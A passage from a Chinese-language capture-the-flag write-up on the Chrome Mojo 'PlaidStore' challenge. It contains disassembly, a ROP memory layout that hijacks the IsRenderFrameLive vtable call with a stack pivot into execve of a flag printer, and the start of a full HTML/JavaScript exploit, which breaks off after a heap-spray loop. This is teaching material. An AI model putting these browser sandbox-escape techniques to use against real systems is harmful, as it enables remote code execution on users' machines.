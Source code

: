 ```
0000000003c582b0 t content::PlaidStoreImpl::GetData(std::__1::basic_string&lt;char, std::__1::char_traits&lt;char&gt;, std::__1::allocator&lt;char&gt; &gt; const&amp;, unsigned int, base::OnceCallback&lt;void (std::__1::vector&lt;unsigned char, std::__1::allocator&lt;unsigned char&gt; &gt; const&amp;)&gt;)
```

调用`IsRenderFrameLive`基调用 `vtable + 0x160` 的位置， rax 保存 `vtable` 的值

```
0x00005555591ac2c7 &lt;+23&gt;:    mov    r14,rsi              
   0x00005555591ac2ca &lt;+26&gt;:    mov    rbx,rdi                        
   0x00005555591ac2cd &lt;+29&gt;:    mov    rdi,QWORD PTR [rdi+0x8]// rdi == render_frame_host_   
   0x00005555591ac2d1 &lt;+33&gt;:    mov    rax,QWORD PTR [rdi] // rax ==&gt; vtable 
   0x00005555591ac2d4 &lt;+36&gt;:    call   QWORD PTR [rax+0x160]  // vtable+0x160 ==&gt; IsRenderFrameLive
```

我们可以构造下面的内存布局

```
frame_addr =&gt;   [0x00] : vtable  ==&gt; frame_addr + 0x10  ---
                [0x08] : gadget =&gt; pop rdi                 |
            /-- [0x10] : frame_addr + 0x180 &lt;-----------------------
            |   [0x18] : gadget =&gt; pop rax                          |
            |   [0x20] : gadget =&gt; SYS_execve                       | vtable+0x10   
            |   [0x28] : gadget =&gt; xor rsi, rsi; pop rbp; jmp rax   |
            |   ...                                                 V
            |   [0x160 + 0x10] : xchg rax, rsp    &lt;= isRenderFrameLive
            |   [0x160 + 0x18] : 
            -&gt; [0x180 ... ] : "/home/chrome/flag_printer"
```

这里将`vtable -&gt; isRenderFrameLive` 处改成`xchg rax, rsp` ， 因为 `rax` 保存`vtable` 的地址， 所以`rsp` 变成了`frame_addr + 0x10` 的地址，继续执行，最终相当于执行 拿到flag

```
execve("/home/chrome/flag_printer",rsi,env);
```

### <a class="reference-link" name="%E5%AE%8C%E6%95%B4exp"></a>完整exp

完整exp如下

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
    &lt;head&gt;
        &lt;style&gt;
            body `{`
              font-family: monospace;
            `}`
        &lt;/style&gt;
    &lt;/head&gt;
    &lt;body&gt;
        &lt;script src="../mojo/public/js/mojo_bindings_lite.js"&gt;&lt;/script&gt;
        &lt;script src="../third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"&gt;&lt;/script&gt;
        &lt;script&gt;
function show(msg)`{`
    document.body.innerHTML+=msg+"&lt;br&gt;";
`}`
async function main()`{`
    var stores = [];
    let p = blink.mojom.PlaidStore.getRemote(true); 

    for(let i=0;i&lt;0x40;i++)`{`
        tmp=new Uint8Array(0x28);
```